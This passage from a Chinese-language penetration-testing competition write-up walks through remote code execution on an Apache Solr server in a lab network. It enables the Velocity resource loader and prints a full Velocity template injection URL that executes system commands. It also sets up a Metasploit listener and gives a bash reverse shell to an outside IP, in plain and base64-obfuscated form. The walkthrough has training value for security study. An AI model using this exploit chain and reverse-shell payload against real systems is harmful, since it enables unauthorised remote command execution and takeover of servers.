 ![image-20221121095136678406-1669009334834663.png](img/典型企业生产环境渗透赛 Local.assets/02cb267db1f28613acb7722f8ac52a3b.png)

返回200后关闭抓包：

![image-20221121095256391692-1669009336079768.png](img/典型企业生产环境渗透赛 Local.assets/239d59df1f45913ac34990c07541ea10.png)

![image-20221121095311780340-1669009337269887.png](img/典型企业生产环境渗透赛 Local.assets/edb87eb44204d7f41a47d8bccae500a2.png)

浏览器中再次访问`http:192.168.10.110:8983/solr/new_core/config`，发现`params.resource.loader.enabled`的值已经变为了true:

![image-20221109145715646211-1669009338479347.png](img/典型企业生产环境渗透赛 Local.assets/35292160c22834db9a674b44aaf81d13.png)

通过Velocity模板即可执行任意命令，浏览器中访问如下内容：

```
http://192.168.10.110:8983/solr/new_core/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27id%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end
```

![image-20221109145744753494-1669009339671333.png](img/典型企业生产环境渗透赛 Local.assets/604e532ab41cb5fe8c86bcafae15a019.png)

在`Kali_tools`主机中新建终端，使用MSF建立监听：

```
msfconsole
use exploit/multi/handler
set lhost 99.99.99.100
set lport 1234
run
```

![image-20221109145917047923-1669009340860287.png](img/典型企业生产环境渗透赛 Local.assets/d7768e2ad5bd2c7470e36148f3e0e4e8.png)

反弹shell原始命令如下：

```
bash -c "bash -i >& /dev/tcp/99.99.99.100/1234 0>&1"
```

在burpsuite中将该命令进行base64编码：

![image-20221109150024852082-1669009342080895.png](img/典型企业生产环境渗透赛 Local.assets/6ddf768298e2fcb55b322e7cca1b9444.png)

```
YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC85OS45OS45OS4xMDAvMTIzNCAwPiYxIg==
```

将编码后的bash命令拼接成JAVA可识别的格式：

```
bash -c {echo,YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC85OS45OS45OS4xMDAvMTIzNCAwPiYxIg==}|{base64,-d}|{bash,-i}
```
